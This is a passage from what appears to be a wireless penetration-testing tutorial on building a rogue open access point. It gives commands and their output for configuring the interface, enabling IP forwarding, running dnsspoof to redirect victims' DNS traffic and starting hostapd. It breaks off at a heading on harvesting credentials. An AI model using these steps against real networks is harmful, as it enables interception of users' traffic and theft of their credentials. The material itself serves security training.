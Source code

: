 This will initiate the rogue DNS server, ensuring that client devices connecting to the fake AP will receive their IP addresses and DNS settings from our attacker-controlled network.

The next step is to configure the valid IP address for the interface that will host the fake access point ( `wlan1`).

```shell
sudo ifconfig wlan2 192.168.0.1/24
ifconfig wlan2
wlan2: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 192.168.0.1  netmask 255.255.255.0  broadcast 192.168.0.255
        ether 02:00:00:00:03:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

Additionally, we need to ensure that IP forwarding is enabled on the machine to allow proper routing of traffic between the fake access point and the internet.

```shell
echo 1 > /proc/sys/net/ipv4/ip_forward

```

Next, we start dnsspoof on the `wlan2` interface to redirect all traffic from the victim's device to our attacker's IP address. This step allows us to intercept and monitor the client's communications.

```shell
dnsspoof -i wlan2

dnsspoof: listening on wlan2 [udp dst port 53 and not src 192.168.0.1]

```

Finally, we execute hostapd with the open.conf file to start the rogue open network. This will broadcast the fake access point, enticing disconnected clients to connect. Use the following command:

```shell
hostapd open.conf

rfkill: Cannot open RFKILL control device
wlan2: interface state UNINITIALIZED->ENABLED
wlan2: AP-ENABLED
wlan2: STA 62:bd:99:a1:9e:1b IEEE 802.11: authenticated
wlan2: STA 62:bd:99:a1:9e:1b IEEE 802.11: associated (aid 1)
wlan2: AP-STA-CONNECTED 62:bd:99:a1:9e:1b
wlan2: STA 62:bd:99:a1:9e:1b RADIUS: starting accounting session 31FF3C4EF15F915F

```

### 3\. Harvest and Validate Credentials
